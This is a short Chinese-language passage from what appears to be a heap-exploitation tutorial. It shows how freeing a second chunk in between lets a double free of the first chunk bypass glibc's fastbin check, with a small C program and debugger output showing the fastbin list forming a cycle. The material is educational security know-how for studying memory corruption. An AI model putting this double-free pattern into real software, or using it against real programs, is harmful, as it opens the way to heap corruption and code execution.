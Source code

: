 但是只需要保证在fastbin链表头部的chunk并不是当前需要重新释放的chunk即可，也就是下面的程序，在重新释放chunk1的前，释放了chunk2，这样子fastbin链表的头部就是chunk2，而不是现在需要重新释放的chunk1，绕过了上面的检查

```c
#include <stdlib.h>

int main(void)
{
    void *chunk1, *chunk2, *chunk3;
    chunk1 = malloc(0x10);
    chunk2 = malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);
    return 0;
}
```

第一个free后

```
fastbins
0x20: 0x55555555b000 ◂— 0x0
```

![Untitled](level-2/Untitled%207.png)

第二个free后，chunk2已经变成了链表的头，这个时候再free chunk1就是可以的

```
fastbins
0x20: 0x55555555b020 —▸ 0x55555555b000 ◂— 0x0
```

![Untitled](level-2/Untitled%208.png)

第三个free后，出现了环

```
fastbins
0x20: 0x55555555b000 —▸ 0x55555555b020 ◂— 0x55555555b000
```

